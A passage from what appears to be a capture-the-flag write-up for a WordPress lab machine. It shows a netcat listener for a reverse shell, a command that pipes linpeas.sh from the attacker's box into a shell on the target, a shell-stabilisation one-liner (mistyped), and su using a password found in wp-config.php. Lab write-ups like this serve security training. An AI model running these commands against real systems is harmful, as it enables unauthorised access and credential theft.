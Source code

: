 I started a netcat listener on my machine on port 8000 

```bash 
$ sudo nc -lvnp 8000 
```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[LinPEAS ]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine 

``` bash 
$ python3 -m http.server 1234 
``` 
and on target run it using

```bash 
$ curl http://<attackbox_ip>:1234/linpeas.sh | sh 
```
This will directly
run the shell script on the target machine.

<p align="center"> <img src="./Screenshots/6.png" width="550" ></p>
This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner 

```bash 
$ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd 
```

and use password _cybersecurity_ to get access. Now cat the user.txt flag in _/home/c0ldd directory _

```bash 
$ cat /home/c0ldd/user.txt 
```
